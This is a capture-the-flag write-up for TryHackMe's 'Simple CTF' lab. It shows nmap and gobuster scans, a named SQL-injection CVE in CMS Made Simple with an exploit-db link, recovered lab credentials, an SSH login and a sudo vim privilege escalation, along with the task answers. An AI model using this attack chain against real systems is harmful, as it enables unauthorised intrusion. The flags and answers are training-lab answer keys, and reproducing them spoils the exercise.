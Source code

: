 # Try Hack Me - Simple CTF

setup variable IP for easy use
```bash
export IP=10.10.125.14
```

# TASK 1

Q. How many services are running under port 1000?
A. 2

```bash
nmap -sC -sV -oN nmap/initial
```
```
Nmap 7.95 scan initiated Thu Jun 19 19:04:09 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -oN nmap/initial 10.10.158.149
Nmap scan report for 10.10.158.149
Host is up (0.14s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.57.243
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Q. What is running on the higher port?
A. ssh

Q. What's the CVE you're using against the application? 
A. CVE-2019-9053

now let's hunt for hidden directories
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.158.149
```

/simple/
CMS Simple Made Simple site running 2.2.8

quick google gets us the CVE


Q. To what kind of vulnerability is the application vulnerable?
A. SQL Injection. i.e SQLi


Q. What's the password?
A. secret

First lets grab the exploit code. Nist provides two sites. I prefer exploit-db - https://www.exploit-db.com/exploits/46635

```
Ran this with Python3 and I kept getting an argument error. After looking at the code I see that it was using some really old libraries and syntax.
Time for a quick rewrite! I have posted the new version in the root of write-ups. It now works with Pyhton3 (out of the box) on Kali as of 6/18/2025
```

Running the updated code provides
```
Salt :1dac0d92e9fa6bb2
Username: mitch
email: admin@admin.com
password hash: 0c01f4468bd75d7a84c7eb73846e8d96
password: secret
```
Q. Where can you login with the details obtained?
A. http://10.10.222.217/simple/admin/login.php

```bash
gobuster dir -u http://10.10.222.217/simple/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,php3,html
```
SPent hours trying to upload reverse shells. Only to remember we have ssh on port 2222. Luets try the user name and password

```bash
ssh mitch@10.10.222.217 -p 2222
```
bingo!


Q. What's the user flag?
A. G00d j0b, keep up!

It's in mitchs home directory!

Q. Is there any other user in the home directory? What's its name?
A. sunbath

```bash
cd ..
ls -la
```


Q. What can you leverage to spawn a privileged shell?
A. vim

```bash
sudo -l
```

Q. What's the root flag?
A. sudo vim /root/root.txt
